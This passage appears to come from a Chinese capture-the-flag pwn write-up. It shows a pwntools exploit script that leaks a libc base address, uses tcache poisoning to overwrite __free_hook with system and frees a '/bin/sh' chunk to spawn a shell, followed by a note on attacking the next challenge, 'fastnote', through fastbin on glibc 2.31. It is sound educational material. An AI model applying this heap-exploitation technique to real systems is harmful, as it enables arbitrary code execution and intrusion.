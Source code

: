 ```bash

def edit(idx,content):
    choice(edit_idx)
    sla('Index: ',idx)
    sla('Content: ',content)

for i in range(9):
    add(i,0x88)

for i in range(8):
    delete(i)

#duan()
show(7)

libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

edit(8,'/bin/sh\x00')
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))

edit(6,p64(free_hook))
#duan()

add(10,0x88)
add(11,0x88)
#duan()
edit(11,p64(system))
#duan()
delete(8)
p.interactive()
```

## fastnote

### 思路

GLIBC 2.31-0ubuntu9.14  
限制申请大小为 0x80，无 edit，打 fastbin
